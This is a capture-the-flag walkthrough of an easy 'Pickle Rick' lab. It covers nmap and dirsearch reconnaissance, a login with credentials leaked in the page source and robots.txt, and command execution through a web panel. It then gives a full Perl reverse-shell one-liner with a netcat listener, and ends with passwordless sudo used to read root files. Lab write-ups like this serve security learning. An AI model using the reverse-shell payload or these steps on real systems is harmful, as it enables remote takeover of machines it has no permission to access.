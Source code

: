 ## Pickle Rick Room
# Difficulty: Easy

When we first paste the ip into google we get meeted with a webpage.

![image](https://user-images.githubusercontent.com/66257304/131914496-9a5e01b4-ad90-4a55-b779-d04c8bfac683.png)

If we view the source code we see that Rick has left his username as a comment (Silly Rick).

![image](https://user-images.githubusercontent.com/66257304/131914660-aa60069f-f434-41c8-a0c3-f1a13c04673f.png)

# NMAP

Now we should run an nmap scan, use the command `nmap -sC -sV -A [IP]` to see all open ports.

Looks like just port 80 and 22 are open, we dont have mutch to go at here.

![image](https://user-images.githubusercontent.com/66257304/131915021-d402173f-fc19-41cc-b4e5-b255e3f70986.png)

# Dirsearch

Let's run a Dirsearch scan to see if there are any hidden directories.

Use the command `dirsearch -u http://[IP]`

We see there is a robots.txt file, lets have a look.

![image](https://user-images.githubusercontent.com/66257304/131916879-5ed1a304-5044-403b-951f-f2e65cc33f1b.png)

Seem's to just be one of Rick's CatchPhrases, right?

We also see there is a /login.php.

![image](https://user-images.githubusercontent.com/66257304/131916705-75985f80-4b2e-413e-98b7-fd80d12460d8.png)

Let's go to that shall we.

![image](https://user-images.githubusercontent.com/66257304/131916751-28372432-f449-4085-9a50-15efda187ad4.png)

Okay, so now we have a login page, we have Rick's username from earlier but we dont have a password, oh wait, what about Rick's silly thing in the robots.txt file, that might work?

![image](https://user-images.githubusercontent.com/66257304/131917166-fa575c72-7bb1-4e22-96aa-77500ebfa4f9.png)

And Boom, we are in.

Hmmm, seems we can run commands, lets try `ls` to see if it works.

![image](https://user-images.githubusercontent.com/66257304/131917272-e925a713-1cc3-44bb-8255-b640bf8dcb63.png)

And it does, and we see a file called Sup3rS3cretPickl3Ingred.txt, what if we cat that out?

![image](https://user-images.githubusercontent.com/66257304/131917379-a86799e6-47f3-4342-9077-9008ca12510d.png)

Damn...

Looks like were going to have to get a reverse shell, lets set up a listener on port 4242 using the command `nc -lvnp 4242`. 

Then lets use the command `perl -e 'use Socket;$i="[YOUR IP]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Now we see a call back on our listener.

![image](https://user-images.githubusercontent.com/66257304/131918250-53c5acb4-7112-47d7-b2c2-e2f5240f6dc3.png)

Now we can cat out that Sup3rS3cretPickl3Ingred.txt file and find the first ingredient.

If we move to /home/rick we find the second ingredient so we can cat out that and answer the question.

If we run the command `sudo -l` we find out that we can run anything as sudo with no passwords (How Crazy) 

If we try to `ls /root` we will get a permission denied error, but since we can run commands as sudo we can run the command `sudo ls /root/3rd.txt` to read out the final ingredient.

Well Done!

